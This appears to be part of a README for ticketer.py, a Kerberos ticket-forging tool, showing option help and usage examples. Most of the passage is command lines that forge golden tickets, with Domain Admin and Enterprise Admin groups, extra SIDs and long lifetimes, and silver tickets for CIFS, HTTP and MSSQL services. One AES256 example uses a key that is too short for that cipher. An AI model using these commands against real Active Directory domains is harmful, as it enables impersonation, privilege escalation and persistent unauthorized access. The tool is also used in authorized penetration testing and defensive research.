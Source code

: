 ```
  -extra-sid EXTRA_SID  Comma separated list of ExtraSids for ticket PAC
  -extra-pac            Populate ticket with extra PAC (UPN_DNS)
  -old-pac              Use old PAC structure (exclude PAC_ATTRIBUTES_INFO and PAC_REQUESTOR)

Template Mode:
  -request              Request ticket from domain and clone it (requires -user)
  -impersonate IMPERSONATE  Sapphire ticket - impersonate user through S4U2Self+U2U

General Options:
  -duration DURATION    Hours until ticket expires (default: 24*365*10)
  -ts                   Add timestamp to logging output
  -debug                Turn DEBUG output ON

Authentication (for -request mode):
  -user USER            Domain/username for ticket request
  -password PASSWORD    Password for domain/username
  -hashes LMHASH:NTHASH NTLM hashes for authentication
  -dc-ip ip address     Domain controller IP address
```
## Usage Examples

### Golden Ticket Creation
```bash
# Basic golden ticket with RC4 encryption
python3 ticketer.py -nthash a87f3a337d73085c45f9416be5787d86 -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain contoso.local administrator

# Golden ticket with AES256 encryption
python3 ticketer.py -aesKey 18e4be92b43c37137228c0ffa8212d04 -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain contoso.local administrator

# Golden ticket with custom groups and extra SIDs
python3 ticketer.py -nthash a87f3a337d73085c45f9416be5787d86 -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain contoso.local -groups 512,513,518,519 -extra-sid S-1-5-21-1339291983-1349129144-367733775-1001 administrator

# Golden ticket with custom duration (1 year)
python3 ticketer.py -nthash a87f3a337d73085c45f9416be5787d86 -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain contoso.local -duration 8760 administrator
```

### Silver Ticket Creation
```bash
# Silver ticket for CIFS service
python3 ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain contoso.local -spn cifs/server.contoso.local administrator

# Silver ticket for HTTP service
python3 ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain contoso.local -spn http/web.contoso.local administrator

# Silver ticket with keytab file
python3 ticketer.py -keytab service.keytab -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain contoso.local -spn mssql/db.contoso.local administrator
```
